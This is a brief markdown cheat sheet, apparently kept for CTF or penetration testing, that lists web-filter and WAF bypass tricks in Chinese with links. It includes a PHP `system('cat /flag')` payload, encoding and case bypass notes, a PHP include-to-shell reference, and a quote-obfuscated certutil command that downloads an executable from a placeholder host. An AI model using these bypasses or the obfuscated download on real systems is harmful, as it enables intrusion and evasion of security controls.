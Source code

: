 # Web bypass

- [Bypass Linux Shell Restrictions](https://mp.weixin.qq.com/s/8QTax87lorWNnOQR8p1ORQ)
- 空格绕过 `a=system ('cat /flag');`
- 大小写绕过
- %0a 绕过
- unicode 绕过, `t => \u0074`
- ~ 反码绕过
- [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
- splstack 绕过匹配 O 开头的序列化数据； [2023 安洵杯 4 号的罗纳尔多](https://mp.weixin.qq.com/s/azbY19cBgs3MgVdo7i-OhQ)
- \_\_halt_compiler();来结束 php 代码执行流程 同上链接
- [详细|waf 绕过学习](https://mp.weixin.qq.com/s/OeZsKohqe87-ieIuW7L9tA)

[sql 注入 bypass waf 工具（1 月 18 日更新）](https://mp.weixin.qq.com/s/qritLmRwP-Q5OLskxNWSVw)

# Cmd bypass

```sh
c""""e""""r""""t""""u""""t""""i""""l.exe -urlcache -split -f http://ip/6666.exe 6666.exe
```

# Linux shell

[Bypass Linux Shell Restrictions](https://mp.weixin.qq.com/s/8QTax87lorWNnOQR8p1ORQ)
